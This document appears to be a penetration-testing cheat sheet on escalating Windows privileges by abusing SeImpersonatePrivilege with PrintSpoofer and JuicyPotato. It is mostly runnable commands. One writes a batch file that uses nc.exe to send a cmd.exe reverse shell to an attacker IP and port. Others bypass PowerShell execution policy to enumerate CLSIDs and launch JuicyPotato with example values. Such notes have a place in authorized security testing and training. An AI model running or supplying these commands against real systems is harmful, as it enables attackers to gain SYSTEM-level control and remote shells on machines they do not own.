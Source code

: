 ### SeImpersonatePrivilege

whoami /all (privileges information)

SeImpersonatePrivilege = Enabled

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Privilege Escalation 1

```Windows 10``` and ```Server 2016```/```2019```/```2022```

```LOCAL SERVICE```/```NETWORK SERVICE```/```iis apppool\defaultapppool```

Tool:[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### Privilege Escalation 2

[JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

```cmd
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
```

[CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

```cmd
powershell -ep bypass -f "C:\Windows\Temp\GetCLSID.ps1"
REM test
test_clsid.bat
type result.log
```

```cmd
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l <attacker port> -t * -c <CLSID>
REM -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
REM -p <program>: program to launch
REM -l <port>: COM server listen port
REM example
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l 4444 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```